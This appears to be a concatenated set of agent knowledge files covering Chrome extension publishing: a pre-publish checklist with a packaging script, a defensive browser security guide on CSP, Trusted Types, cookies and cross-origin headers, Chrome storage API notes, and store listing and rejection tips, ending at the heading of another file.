- [ ] **No phone/tablet mockups** — Unless the extension actually works on those devices.
- [ ] **Small promo tile** (recommended): 440×280 PNG or JPEG. Used for featured placements.

## Privacy & Compliance

- [ ] **Data disclosure form matches reality** — The CWS data use disclosure checkboxes
      must accurately reflect what the extension code actually does. Mismatch = rejection.
- [ ] **Privacy policy URL is live** — Visit the URL yourself. Confirm it loads and
      contains an actual privacy policy, not a 404 or placeholder.
- [ ] **Privacy policy matches disclosure** — The text of the policy must be consistent
      with what you declared in the disclosure form.
- [ ] **chrome.storage.sync disclosed** — If you use `chrome.storage.sync`, data is
      transmitted to Google's servers. This counts as off-device transmission.
- [ ] **Remote code prohibition** — Extensions cannot execute remotely hosted code.
      All JS must be bundled in the extension package. No loading scripts from CDNs
      at runtime (Manifest V3 enforces this, but verify).
- [ ] **No obfuscated code** — Minification is fine. Obfuscation (intentionally making
      code unreadable) is prohibited and will cause rejection.

## Functionality

- [ ] **Extension works** — Load it unpacked in Chrome, test all features. Check the
      console for errors.
- [ ] **No crashes or blank popups** — Test popup, side panel, options page, content
      scripts. All should load without errors.
- [ ] **Works on intended sites** — If the extension targets specific websites, verify
      it works on current versions of those sites.
- [ ] **Graceful degradation** — The extension should handle edge cases (no internet,
      empty data, restricted pages like chrome:// URLs) without crashing.
- [ ] **Uninstall is clean** — No persistent side effects after the extension is removed.
- [ ] **No excessive resource use** — The extension shouldn't noticeably slow down
      browsing. Content scripts in particular should be lightweight.

## Updates (for existing extensions)

- [ ] **CHROMEWEBSTORE.md version history updated** — New entry with version, date, and
      summary of changes.
- [ ] **Last Updated date bumped** — If any user-facing changes were made.
- [ ] **Feature list in descriptions updated** — If new features were added.
- [ ] **Permissions justification updated** — If manifest.json permissions changed.
- [ ] **Screenshots refreshed** — If the UI changed significantly.
- [ ] **Privacy disclosures updated** — If data practices changed.

## Packaging Script

To create a clean ZIP for submission, use a script like:

```bash
#!/bin/bash
# package-extension.sh — Creates a clean ZIP for Chrome Web Store submission

EXTENSION_NAME="my-extension"
VERSION=$(node -p "require('./manifest.json').version")
OUTPUT="${EXTENSION_NAME}-v${VERSION}.zip"

# Remove old package
rm -f "$OUTPUT"

# Create ZIP excluding dev files
zip -r "$OUTPUT" . \
  -x ".git/*" \
  -x "node_modules/*" \
  -x ".env" \
  -x "*.map" \
  -x "tests/*" \
  -x "__tests__/*" \
  -x "*.test.*" \
  -x "*.spec.*" \
  -x ".eslintrc*" \
  -x ".prettierrc*" \
  -x "tsconfig.json" \
  -x "package.json" \
  -x "package-lock.json" \
  -x "webpack.config.*" \
  -x "vite.config.*" \
  -x "rollup.config.*" \
  -x "CHROMEWEBSTORE.md" \
  -x "README.md" \
  -x "CHANGELOG.md" \
  -x ".DS_Store" \
  -x "Thumbs.db" \
  -x "*.sh" \
  -x "store-assets/*"

echo "Packaged: $OUTPUT ($(du -h "$OUTPUT" | cut -f1))"
```

Customize the exclusion list for your project. The key principle: ship only what Chrome
needs to run the extension.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, performance, tdd, api]

### 📘 KNOWLEDGE: NEXUS_SECURITY.MD

# Web Security
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Guidelines for implementing preventative security measures on the web safely and incrementally.

**NOTE**: This skill covers standard web platform defenses, focusing mostly on the browser. Applications still require comprehensive server-side security, authorization models, and input validation.

## Table of Contents

- When to apply this skill
- Phase 1: Quick Wins & Obvious Anti-Patterns
  - 1.1 Secure Contexts
  - 1.2 Avoid Dangerous DOM Sinks
  - 1.3 Secure Cookies
  - 1.4 Clickjacking Protection (Frame-Ancestors & X-Frame-Options)
  - 1.5 Secure Window Messaging (postMessage)
- Phase 2: Discovery & Data Collection (Prerequisites)
  - 2.1 Inspect the Application
  - 2.2 Deploy Report-Only Policies
  - 2.3 Data Hygiene for Reports
  - 2.4 Automated Discovery via Browser APIs and DevTools
- Phase 3: Interpreting Results & Enforcement
  - Core enforcement (data-driven rollouts)
    - 3.1 Analyzing CSP Reports
    - 3.2 Transitioning to CSP Enforcement
    - 3.3 Trusted Types Enforcement
    - 3.4 Cross-Origin Opener Policy (COOP)
    - 3.5 Cross-Origin Resource Policy (CORP)
    - 3.6 Cross-Origin Isolation
    - 3.7 Fetch Metadata (Resource Isolation)
  - Companion policies (deploy in parallel)
    - HTTP Strict Transport Security (HSTS)
    - X-Content-Type-Options
    - Referrer Policy
    - Permissions Policy
    - Subresource Integrity (SRI)
    - Cross-Origin Resource Sharing (CORS)
    - Clear-Site-Data (Logout)

## When to apply this skill

The right starting point depends on the application:

- **Retrofitting an existing app**: Always start at Phase 1. Strict policies applied without discovery will break the app. Treat Phase 2 (report-only) as a prerequisite for any Phase 3 enforcement.
- **Greenfield app or new feature**: You can adopt Phase 3 enforced policies directly, but still wire up reporting from day one.
- **SaaS template / framework defaults**: Ship Phase 1 hygiene and Phase 3 policies enabled by default, with Phase 2 reporting on so downstream users can detect regressions.

If you are unsure which case applies, default to Phase 1 → 2 → 3 in order.

**Focusing on Leverage**: While Phase 1 and 2 establish baseline hygiene and data gathering, Phase 3 core enforcement represents the highest-leverage security work. Specifically, Injection/XSS mitigation through CSP (§3.2) and Trusted Types (§3.3) addresses the largest practical threat, while companion policies and isolation defenses provide important defense-in-depth.

## Phase 1: Quick Wins & Obvious Anti-Patterns

Before attempting to deploy global security policies, focus on code-level hygiene and immediate fixes that do not risk breaking the application.

### 1.1 Secure Contexts
- **DO**: Deliver resources over HTTPS to protect against both passive and active network attackers.
- **DO**: Serve a header like `Strict-Transport-Security: max-age=31536000; includeSubDomains; preload` to force HTTPS whenever possible.
- **TIP**: In production rollout, start with a short `max-age` (e.g., 300 seconds) and incrementally increase to 1 year. A misconfigured HSTS with a long max-age can render the site permanently inaccessible until the cache expires in every browser that saw it.

### 1.2 Avoid Dangerous DOM Sinks
- **DO**: Prefer `textContent` or `innerText` over `innerHTML` when setting text content.
- **DO**: Use `setHTML` (part of the Sanitizer API) when available to safely insert HTML.
- **DO NOT**: Use `innerHTML` or `setHTMLUnsafe` with untrusted or unsanitized input.
- **DO**: Use DOMParser or create elements programmatically (`document.createElement`) instead of concatenating HTML strings.

**Dangerous sinks to grep for**: `innerHTML`, `outerHTML`, `document.write`, `eval`, `setTimeout` with a string argument, `script.src`.

**Code Pattern:**
```javascript
// Unsafe
element.innerHTML = `Hello, ${untrustedName}!`;

// Safe
element.textContent = `Hello, ${untrustedName}!`;
```

Trusted Types can enforce this pattern at runtime by blocking string assignments to dangerous sinks. Deploying it is a CSP enforcement step with real breakage risk — see §3.3.

### 1.3 Secure Cookies
Ensure new cookies are configured securely by default.
- **DO**: Prefer naming cookies with the `__Host-` prefix when they'll only be used by one domain. This requires the `Secure` and `Path=/` attributes to be set, and the `Domain` attribute to be omitted. This protects against same-site and network attackers.
- **DO**: Prefer naming cookies with the `__Secure-` prefix when `__Host-` isn't appropriate. This requires the `Secure` attribute, and protects against network attackers.
- **DO**: Explicitly set `SameSite=Lax` for standard first-party cookies.
- **DO**: If your application will be embedded as an iframe in third-party contexts, use `SameSite=None; Secure; Partitioned`.
- **DO NOT**: Rely on unpartitioned `SameSite=None` — these are being systematically blocked for tracking prevention.

```http
Set-Cookie: __Host-session_id=value; SameSite=Lax; HttpOnly; Secure; Path=/
Set-Cookie: third_party_var=value; SameSite=None; Secure; Partitioned
```

### 1.4 Clickjacking Protection (Frame-Ancestors & X-Frame-Options)
Clickjacking protection is easy to deploy, carries extremely low risk of breaking legitimate functionality, and provides immediate defense against malicious UI redressing.
- **DO**: Set the `X-Frame-Options: SAMEORIGIN` header to prevent other sites from embedding your pages in an iframe (or use `DENY` if you should never be embedded).
- **DO**: For fine-grained control, use `frame-ancestors 'self'` (or specified trusted domains) in your CSP header.

```http
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self' https://trusted-partner.com;
```

### 1.5 Secure Window Messaging (postMessage)
If your application communicates with other origins using `window.postMessage`, you must strictly validate the sender and receiver.
- **DO**: Always validate the `event.origin` of incoming messages on the receiver side using strict equality against a list of trusted origins. Do **not** trust wildcards (`*`) or unverified payloads.
- **DO**: Always specify a target origin (rather than the wildcard `*`) when calling `postMessage` to send sensitive data, ensuring only the intended origin can receive it.
- **DO**: Validate and sanitize the properties of incoming message payloads before performing operations or writing them to DOM sinks. Manual JSON serialization is unnecessary as `postMessage` handles object cloning internally.

```javascript
// Receiver (Safe - traditional string check)
window.addEventListener('message', (event) => {
  if (event.origin !== 'https://trusted-origin.com') return;
  const data = event.data;
  if (data && data.action === 'update') {
    // Process data safely
  }
});

// Sender (Safe)
targetWindow.postMessage({ action: 'update' }, 'https://trusted-origin.com');
```

## Phase 2: Discovery & Data Collection (Prerequisites)

Do not blindly apply strict policies to an existing application. You must first understand the application's constraints by collecting data.

### 2.1 Inspect the Application
Before turning anything on, gather facts:
- **Grep for existing security headers** in server config, middleware, CDN/edge config, and meta tags: `Content-Security-Policy`, `Strict-Transport-Security`, `X-Frame-Options`, `X-Content-Type-Options`, `Permissions-Policy`, `Cross-Origin-*`, `Access-Control-*`, `Timing-Allow-Origin`, `Reporting-Endpoints`.
- **Enumerate inline scripts and styles** in server-rendered templates and static HTML — these will need nonces, hashes, or refactoring.
- **List third-party script origins** loaded by the app (analytics, ads, tag managers, CDNs). These dictate what `script-src` must allow or whether `'strict-dynamic'` is viable.
- **Identify popup-dependent flows**: OAuth, payment gateways, SSO. These constrain COOP choices.
- **Identify cross-origin embeds and embedders**: iframes the app loads, and sites that embed the app. These constrain COEP/CORP/`frame-ancestors`.
- **Enumerate required browser features**: List any features (camera, geolocation, microphone, fullscreen) used by the app or embedded third-party widgets to inform `Permissions-Policy`.
- **Identify dynamic dependencies**: Check if third-party scripts are versioned or if they receive silent updates, determining if `SRI` can be used.
- **Map cross-site integrations**: List all incoming Webhooks, cross-site APIs, or SSO redirect endpoints so `Fetch Metadata` resource isolation policies don't break them.

### 2.2 Deploy Report-Only Policies
Use "Report-Only" headers to identify potential breakages before they happen.
- **DO**: Use report-only headers to dry-run policies without enforcement. Standard report-only headers include:
  - `Content-Security-Policy-Report-Only` for CSP rules.
  - `Cross-Origin-Opener-Policy-Report-Only` for COOP isolation.
  - `Cross-Origin-Embedder-Policy-Report-Only` for COEP isolation.
  - `Document-Policy-Report-Only` for document features.
- **DO**: Define a `Reporting-Endpoints` header so violations have somewhere to go, and reference its name from `report-to`. Recommend setting an endpoint named `default`, which will automatically capture deprecation and crash reports.
- **DO**: Run report-only for long enough to cover real traffic patterns (typically days to weeks), not just synthetic testing.

**Example headers:**
```http
Reporting-Endpoints: default="https://reports.example/default", main-endpoint="https://reports.example/main"
Content-Security-Policy-Report-Only: script-src 'nonce-{RANDOM}' 'strict-dynamic' 'report-sample'; object-src 'none'; base-uri 'none'; report-to main-endpoint;
```

The `'strict-dynamic'`, `https:`, and `'unsafe-inline'` tokens together form a backwards-compatibility ladder: modern browsers honor `'strict-dynamic'` (nonce-propagating) and ignore the others; older browsers fall back to `https:`; very old browsers fall back to `'unsafe-inline'`. The fallbacks are harmless on any browser that supports a stricter token.

**Managing report false-positives**: Reporting endpoints receive a significant volume of false-positive violation reports caused by client-side middleware, aggressive browser extensions, ancient browsers, web crawlers, or antivirus scanners. When analyzing report-only logs, focus on high-frequency patterns from modern user-agents and filter out noise before making deployment decisions. Specifically:
- **Filter out noise**: Ignore reports sent by old browsers with known bugs triggering spurious violations, reports for markup known to be injected by popular browser extensions or client-side middleware (like identical reports seen across many distinct applications), and reports that do not contain enough information to debug.
- **Ignore low-volume reports**: If a policy is deployed, a low violation volume often indicates a false positive that can be safely ignored.
- **Leverage `'report-sample'`**: Always include `'report-sample'` in your `script-src` directives. This instructs the browser to include the first 40 characters of the violating script or inline code snippet in the violation report, which makes debugging much easier.

### 2.3 Data Hygiene for Reports
- **DO NOT**: Include sensitive data (PII, authentication tokens, session identifiers, query strings with secrets) in logs or violation reports. Mask or omit them at the edge before they reach the reporting endpoint.

### 2.4 Automated Discovery via Browser APIs and DevTools
- **Reporting API**: Use `Reporting-Endpoints` in combination with report-only headers (e.g., `Content-Security-Policy-Report-Only`, `Document-Policy-Report-Only`) to have the browser automatically post violations to your server.
- **Browser DevTools**: Use the **Issues Tab** in modern browsers (e.g., Chrome DevTools). It automatically surfaces blocked resources, mixed content, third-party cookie deprecation warnings, and feature policy violations without you having to crawl the codebase manually.

## Phase 3: Interpreting Results & Enforcement

After collecting data, decide how to proceed with enforcement. Phase 3 has two tracks that run in parallel, not in sequence:

- **Core enforcement (data-driven rollouts)** — high-breakage-risk policies that depend on Phase 2 report-only data. These are the rollouts you stage and watch.
- **Companion policies (deploy in parallel)** — lower-risk headers that can be turned on alongside or before the core work, with little or no Phase 2 discovery required.

### Core enforcement (data-driven rollouts)

#### 3.1 Analyzing CSP Reports

When reviewing CSP violation reports, first separate the noise (per §2.2) from legitimate application issues. For violations that appear to be caused by an incompatibility in your application (usually those where the "Sample" or "Blocked URI" seem like legitimate scripts or assets that might be present in your markup):
- **Code Search**: Search your codebase for the offending script source, URL, or hash to see if it is present in your code, dynamic server templates, or static HTML files.
- **Console Auditing**: Open the page that triggered the violation (the "Document URI" in the report) using the same browser, and check the developer tools/console for CSP violations while exercising as much application functionality as possible (some violations only trigger on specific user interactions).

Once filtered and triaged, analyze the reports against the following common scenarios:

- **Scenario**: Many violations for inline scripts.
  - **Condition**: The app uses a framework that relies on inline scripts.
  - **Decision**: Implement Nonces (server-rendered) or Hashes (static) before enforcing.
- **Scenario**: Violations for third-party analytics scripts.
  - **Condition**: The scripts are required.
  - **Decision**: Use `'strict-dynamic'` with a per-request nonce so the analytics loader can attach its dependencies. Do **not** add the analytics origin to a URL allowlist — domain allowlists are bypassable via open redirects, JSONP, and dependency injection on the listed origin.
- **Scenario**: Trusted Types violations on specific sinks.
  - **Condition**: Legacy code paths still write strings to `innerHTML` etc.
  - **Decision**: Refactor those sinks (per §1.2) or route them through a Trusted Types policy (§3.3) before enforcing.

#### 3.2 Transitioning to CSP Enforcement
Only move to enforced mode when:
1. Violations in the report-only logs have dropped to near zero or are accounted for.
2. Reporting remains wired up after the switch — keep `report-to` on the enforced header so regressions are visible.

**Key directives to set:**
- `script-src` with nonces or hashes — this is the core directive of any CSP and the primary mechanism to prevent XSS.
- `base-uri 'none'` to block `<base>` hijacking. Legacy directives like `object-src 'none'` can be omitted in modern, post-Flash web environments.
- *Optional but potentially breaking*: `default-src 'self'` is sometimes used as a fallback for unspecified fetch directives, but it dramatically complicates deployment and has little security value beyond `script-src`. It is generally safer to focus on robust `script-src` enforcement first.
- *Optional*: `form-action 'self'` prevents form submissions to attacker-controlled origins.
- *Optional*: `upgrade-insecure-requests` auto-upgrades subresource HTTP loads to HTTPS, though modern browsers largely auto-upgrade mixed content anyway.

**Enforced Header Example (CSP with reporting):**
```http
Reporting-Endpoints: main-endpoint="https://reports.example/main"
Content-Security-Policy: script-src 'nonce-{RANDOM}' 'strict-dynamic' 'report-sample'; object-src 'none'; base-uri 'none'; report-to main-endpoint;
```

HTML for nonce-based CSP:
```html
<script nonce="{RANDOM}" src="https://example.com/script.js"></script>
```

For static/cached HTML (SPAs) where a per-response nonce is not possible, use hash-based CSP: hash each inline script and list the hashes in `script-src`.

**Avoid**: URL allowlists like `script-src https://cdn.example.com` — they are easily bypassed by open redirects, JSONP endpoints, and dependency injection on the allowed origin.

#### 3.3 Trusted Types Enforcement
Trusted Types enforces the §1.2 source-level guidance at runtime: once enabled, the browser blocks string assignments to dangerous sinks unless they pass through a named policy.

- **Incremental Rollout Strategy**: While full enforcement carries real breakage risk, you do not need to do everything at once. A highly viable approach is to define and roll out a policy for a small portion of the application under refactoring, and slowly expand its usage as you replace sinks. This simplifies eventual global enforcement without short-term breakage risk.
- **Prerequisite**: Trusted Types requires framework cooperation. If the app's framework (or any third-party widget that writes to DOM sinks) does not produce `TrustedHTML` / `TrustedScript` values, the policy cannot be enforced without breaking that code. Audit framework support before starting the report-only rollout.
- **Prerequisite**: The code-level sink refactor from Phase 1 is a prerequisite for complete Trusted Types enforcement. (Standard CSP `script-src` enforcement, by contrast, does not police DOM sinks and can be deployed without refactoring them.)
- **DO**: Roll out via `Content-Security-Policy-Report-Only: require-trusted-types-for 'script'` first to find every offending sink.
- **DO**: Define a single named policy that performs sanitization (or escaping) and route all sink writes through it.
- **DO**: Move to full global `Content-Security-Policy: require-trusted-types-for 'script'` enforcement once the policy has been successfully integrated and violations in report-only logs drop to zero.

```javascript
if (window.trustedTypes && trustedTypes.createPolicy) {
  const policy = trustedTypes.createPolicy('escapePolicy', {
    createHTML: str => str.replace(/</g, '&lt;').replace(/>/g, '&gt;')
  });
  el.innerHTML = policy.createHTML(untrustedString);
}
```

#### 3.4 Cross-Origin Opener Policy (COOP)

Lowest-risk of the three. Deploy if the app is **not** an OAuth provider, payment processor, or otherwise expected to be reached from an opener.

- **DO**: Use `Cross-Origin-Opener-Policy: same-origin-allow-popups` — prevents a malicious opener from mounting XS-leaks attacks while still allowing OAuth and payment flows that *the app itself* initiates.
- **DO NOT**: Jump straight to `same-origin` unless you have explicitly verified that no integrations rely on cross-origin `window.opener` access.

#### 3.5 Cross-Origin Resource Policy (CORP)

Set CORP explicitly on each response based on whether it should be embeddable in other contexts. Two core benefits: it protects resources from malicious cross-origin reads, and ensures compatibility when pages request stronger client-side isolation.

- **DO**: Default to `Cross-Origin-Resource-Policy: same-origin` for app-internal resources (authenticated data, user session JSON, restricted internal scripts).
- **DO**: Use `same-site` for endpoints utilized across subdomains of the same eTLD+1.
- **DO**: Provide `cross-origin` exclusively for resources created for generic embedding or widely cached delivery (e.g., static shared assets or public CDNs).

#### 3.6 Cross-Origin Isolation

Highest deployment breakage risk. You only need to deploy this infrastructure if the application requires features relying on `SharedArrayBuffer` (e.g., WebAssembly multi-threading or shared memory architectures). If not required, skip this policy group.

- **Preferred path (Chromium environments)**: Enable `Document-Isolation-Policy: isolate-and-credentialless`. This provides client-side isolation comparable to COEP while instructing the browser to strip cookies and authentication credentials from non-CORS cross-origin resource fetches rather than blocking them outright. Note that this is supported primarily in Chrome (142+) and other vendors have not yet shown interest, so evaluate carefully based on your target audience. Apps that need to *block* cross-origin resources lacking explicit CORP opt-in (rather than load them with credentials stripped) can adopt `isolate-and-require-corp` instead. This is stricter and harder to deploy — it requires the same subresource audit as the cross-browser path below.
- **Cross-browser path (Complex enforcement)**: Require `Cross-Origin-Opener-Policy: same-origin` coupled with `Cross-Origin-Embedder-Policy: require-corp`. Every embedded subresource (images, styles, external media) MUST serve an explicit `Cross-Origin-Resource-Policy` header or the browser will prevent it from loading.

```http
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Embedder-Policy: require-corp
Cross-Origin-Resource-Policy: same-origin
```

#### 3.7 Fetch Metadata (Resource Isolation)
Server-side enforcement that uses `Sec-Fetch-*` request headers to reject suspicious cross-site requests. Requires the cross-site integration mapping from §2.1 before enforcing.

- **DO**: Implement a server-side resource isolation policy that checks `Sec-Fetch-*` headers and rejects `cross-site` requests for non-navigational endpoints.
- **DO**: Reject disallowed requests *before* authentication or authorization checks, so the response does not leak timing information about whether a resource or session exists.
- **DO**: Include `Vary: Sec-Fetch-Dest, Sec-Fetch-Mode, Sec-Fetch-Site` to prevent intermediate caches (CDNs) from serving cached responses to attackers.
- **CAUTION**: `same-site` trusts every subdomain under your eTLD+1. If any subdomain hosts user-generated content, a legacy app, or otherwise untrusted code, drop `same-site` from the allowlist and accept only `same-origin` and `none`.
- **CAUTION**: Misconfiguring these checks will block legitimate API requests coming from cross-site integrations, SSO handlers, or Webhooks. Ensure you log and test your `Sec-Fetch-*` constraints beforehand.

```javascript
app.use((req, res, next) => {
  const site = req.get('Sec-Fetch-Site');
  const mode = req.get('Sec-Fetch-Mode');
  const dest = req.get('Sec-Fetch-Dest');

  if (!site) return next(); // Fallback for legacy browsers

  if (['same-origin', 'same-site', 'none'].includes(site)) return next();

  // Allow standard navigate GET requests (link clicks)
  if (site === 'cross-site' && mode === 'navigate' && req.method === 'GET' && !['object', 'embed'].includes(dest)) {
    return next();
  }

  res.status(403).send('Forbidden');
});
```

### Companion policies (deploy in parallel)

These carry significantly lower breakage risk than the core enforcement track. They can be deployed alongside — or before — the CSP and isolation rollouts.

#### HTTP Strict Transport Security (HSTS)
- **DO**: `Strict-Transport-Security: max-age=31536000; includeSubDomains; preload` to force HTTPS.
- **TIP**: In production rollout, start with a short `max-age` (e.g., 300 seconds) and incrementally increase to 1 year. A misconfigured HSTS with a long max-age can render the site permanently inaccessible until the cache expires in every browser that saw it.

#### X-Content-Type-Options
- **DO**: Set `X-Content-Type-Options: nosniff` to block MIME-type sniffing.
- **DO**: Ensure the server serves correct `Content-Type` headers for all resources (`application/javascript` for scripts, `application/json` for APIs, `text/html` for documents, etc.) so the browser can strictly enforce the `nosniff` constraint.

#### Referrer Policy
- **DO**: Use `Referrer-Policy: strict-origin-when-cross-origin` as a safe default.

#### Permissions Policy
- **DO**: Disable unused browser features (camera, geolocation, microphone) for the page and iframes using Structured Fields syntax.
- **DO**: When delegating features to an iframe, use the `allow` attribute in HTML *in addition* to the header.
- **CAUTION**: Unintentionally blocking a delegated feature will cause silent failures in third-party widgets (like embedded video players or payment gateways). Audit third-party dependencies before blocking.

```http
Permissions-Policy: camera=(), geolocation=(), microphone=()
```

```html
<iframe src="https://trusted-video.com/player" allow="fullscreen; camera"></iframe>
```

#### Subresource Integrity (SRI)
- **DO**: Use the `integrity` attribute with a cryptographic hash (preferring `sha256` or `sha512`) when loading third-party scripts, combined with `crossorigin="anonymous"`.
- **DO**: Ensure the server/CDN sends an appropriate `Access-Control-Allow-Origin` header so the browser can compute the hash.
- **DO NOT**: Use SRI for dynamic or unversioned assets — silent updates will cause script execution to fail. SRI is strictly for immutable, versioned assets.

```html
<script src="https://cdn.example.com/lib.js" integrity="sha256-H8df...39v" crossorigin="anonymous"></script>
```

#### Cross-Origin Resource Sharing (CORS)
CORS is a permission grant, not a defense — it tells the browser which cross-origin reads to allow. The risk is misconfiguring it as too permissive.

- **DO**: Validate the `Origin` header on the server and set `Access-Control-Allow-Origin` dynamically to specific origins (rather than wildcard `*`).
- **DO NOT**: Use wildcard `*` for `Access-Control-Allow-Origin` if `Access-Control-Allow-Credentials: true` is required — the browser will reject the response.
- **DO**: Handle preflight (`OPTIONS`) requests by returning appropriate headers before processing data.

```http
Access-Control-Allow-Origin: https://trusted-app.com
Access-Control-Allow-Credentials: true
```

#### Clear-Site-Data (Logout)
- **DO**: Use `Clear-Site-Data` on logout endpoints to ensure complete session termination.

```http
Clear-Site-Data: "cookies", "storage", "cache"
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, vcs, saas, api]

### 📘 KNOWLEDGE: NEXUS_STORAGE.MD

# Chrome Storage API
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Storage Areas

| Area | Persists | Syncs | Quota | Use For |
|------|----------|-------|-------|---------|
| `chrome.storage.local` | Yes | No | 10 MB | Most extension data |
| `chrome.storage.sync` | Yes | Yes (across devices) | 100 KB total, 8 KB/item | User preferences, small data |
| `chrome.storage.session` | Until browser close | No | 10 MB | Ephemeral state, survives SW restart |

Permission required: `"storage"`

## Basic Operations

```js
// Set
await chrome.storage.local.set({ key: 'value', count: 42, items: [1,2,3] });

// Get (with defaults)
const { key = 'default', count = 0 } = await chrome.storage.local.get(['key', 'count']);

// Get all
const allData = await chrome.storage.local.get(null);

// Remove
await chrome.storage.local.remove('key');
await chrome.storage.local.remove(['key1', 'key2']);

// Clear all
await chrome.storage.local.clear();
```

## Change Listener (Works Across All Contexts)

```js
chrome.storage.onChanged.addListener((changes, areaName) => {
  for (const [key, { oldValue, newValue }] of Object.entries(changes)) {
    console.log(`${areaName}.${key}: ${oldValue} → ${newValue}`);
  }
});
```

## storage.sync Quotas

Be aware of limits when using sync:
- `QUOTA_BYTES_PER_ITEM`: 8,192 bytes per key-value pair
- `MAX_ITEMS`: 512 items
- `QUOTA_BYTES`: 102,400 bytes total
- `MAX_WRITE_OPERATIONS_PER_HOUR`: 1,800
- `MAX_WRITE_OPERATIONS_PER_MINUTE`: 120

For large data, split across multiple keys or use `chrome.storage.local`.

## storage.session Notes

- Only available in MV3
- Cleared when the browser closes (not just when SW terminates)
- Accessible from service worker, popup, side panel, etc.
- Good for: auth tokens, temporary caches, in-progress operations

## Why Not localStorage?

`localStorage` works in popup and extension pages but NOT in service workers.
`chrome.storage` works everywhere and supports the cross-context change listener.
Always prefer `chrome.storage`.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, api]

### 📘 KNOWLEDGE: NEXUS_STORE-LISTING.MD

# Store Listing Tips & Common Rejections
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Writing Effective Descriptions

### Short Description (132 chars max)

This appears in search results and category pages. It's your elevator pitch. Rules:

- Start with a verb or the extension's function: "Blocks ads on all websites" not "Ad blocker"
- Be specific: "Translates selected text into 50+ languages" not "Translation tool"
- Include the primary keyword naturally
- Don't waste characters on "Chrome extension" — the user already knows

**Good examples:**
- "Save articles to read later with one click. Works offline."
- "Replace new tab with a minimal dashboard showing weather and tasks"
- "Highlight and annotate text on any webpage. Export notes as Markdown."

**Bad examples:**
- "The best productivity tool for Chrome!" (vague, marketing-speak)
- "Extension for helping you do things better" (says nothing)
- "NEW! Amazing tab manager extension tool app for Chrome browser" (keyword stuffing)

### Detailed Description (16,000 chars max)

The CWS strips all markdown formatting. Use plain text with line breaks. Structure:

```
[One sentence: what does this extension do?]

FEATURES
• Feature 1 — brief explanation
• Feature 2 — brief explanation
• Feature 3 — brief explanation

HOW TO USE
1. Click the extension icon in the toolbar
2. [Next step]
3. [Next step]

PRIVACY
This extension does not collect any personal data. Your [data type] is stored
locally on your device and never transmitted to any server.

PERMISSIONS
• "Read and change data on sites you visit" — needed to [specific feature].
  The extension only activates when you [trigger action].

SUPPORT
Found a bug? Have a suggestion? Email [email] or open an issue at [URL].

Version [X.Y.Z] — [Brief changelog for latest version]
```

### Why This Structure Works

1. **One-sentence opener** — The reviewer and users both scan the first line. Make it count.
2. **Features list** — Users scan for capabilities. Plain-text bullets (•) render well.
3. **How to use** — Reduces support requests and proves the extension actually works.
4. **Privacy section** — Pre-empts user concerns about permissions. Builds trust.
5. **Permissions explanation** — Users see permission warnings during install. If you
   explain them in the description, they're less likely to abort installation.
6. **Support info** — Required by CWS policy ("meaningful customer support").
7. **Latest version note** — Shows the extension is actively maintained.

### Single Purpose Statement

This is filled in the developer dashboard, not shown to users. The review team reads it
carefully. It must be a single sentence that describes the extension's narrow purpose.

**Approved examples:**
- "Saves highlighted text from web pages to a local reading list"
- "Replaces the new tab page with a customizable dashboard"
- "Blocks cookie consent banners on websites"

**Rejected examples:**
- "Improves your browsing experience" (too vague)
- "Productivity and organization tool" (too broad)
- "Highlights text, saves bookmarks, manages tabs, and blocks ads" (not single purpose)

If your extension does multiple things, focus on the primary function. The detailed
description can cover secondary features.

## Common Rejection Reasons

### 1. Excessive Permissions

**Symptom:** "Your extension requests more permissions than it needs."

**Fix:**
- Replace `<all_urls>` with specific host patterns
- Replace `tabs` with `activeTab` if you only need the current tab on click
- Remove permissions you're not using
- Ensure every permission has a clear justification

### 2. Missing or Inadequate Single Purpose

**Symptom:** "Your item does not have a single, clear purpose."

**Fix:**
- Rewrite the single purpose field to be narrow and specific
- If the extension truly does too many unrelated things, consider splitting it

### 3. Misleading Description or Functionality

**Symptom:** "Your extension does not provide the functionality described."

**Fix:**
- Ensure every feature listed in the description actually works
- Remove claims about features you haven't built yet
- Don't use superlatives ("the best", "the fastest") unless verifiable

### 4. Privacy Policy Issues

**Symptom:** "Your extension requires a privacy policy." or "Your privacy policy URL
is not accessible."

**Fix:**
- Host the privacy policy at a stable, public URL
- Ensure it's not behind a login wall
- Make sure it covers all data the extension actually collects
- Match the privacy policy with the data disclosure form

### 5. Trademark Violation

**Symptom:** "Your extension uses trademarked content without authorization."

**Fix:**
- Don't use other companies' names in your extension name (e.g., "YouTube Downloader")
- Don't use logos or brand colors that imply affiliation
- Use generic terms: "Video Downloader for [site]" might be fine, but check the site's terms

### 6. Code Readability

**Symptom:** "Your extension contains obfuscated code."

**Fix:**
- Minification is allowed; obfuscation is not
- If using a bundler (webpack, rollup, vite), ensure source maps are NOT included but
  the output is minified, not obfuscated
- Don't use string encoding tricks to hide code intent

### 7. Remote Code Execution

**Symptom:** "Your extension executes remotely hosted code."

**Fix:**
- Bundle all JavaScript in the extension package
- Don't load scripts from CDNs at runtime
- Don't use `eval()` or `new Function()` with remote content
- Fetching JSON data from APIs is fine; fetching and executing JS is not

### 8. User Data Disclosure Mismatch

**Symptom:** "Your extension's data usage does not match your disclosure."

**Fix:**
- Audit every `fetch()`, `XMLHttpRequest`, and `chrome.storage.sync` call
- Remember that `chrome.storage.sync` transmits data to Google's servers
- If you use any analytics library (even self-hosted), declare it
- If you log errors to an external service, declare it

## After Rejection

When an extension is rejected:

1. Read the rejection email carefully — it specifies which policy was violated
2. Update CHROMEWEBSTORE.md with the rejection reason and fix
3. Make the required changes to the extension code or listing
4. Re-verify against the pre-publish checklist
5. Resubmit through the developer dashboard
6. Note: Repeated policy violations can result in account suspension

## Review Timeline

- First submission: typically 1–3 business days, can be longer
- Updates to existing extensions: usually faster, often within 24 hours
- Expedited review: not officially available; maintaining a clean track record helps
- Deferred publishing: you can choose to publish manually after review passes,
  giving you control over timing. Must publish within 30 days of approval.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, tdd, api]

### 📘 KNOWLEDGE: NEXUS_TALL STACKPIPELINE.MD

# TALL Pipeline Agent - Full App Generator di Sandbox Stabil
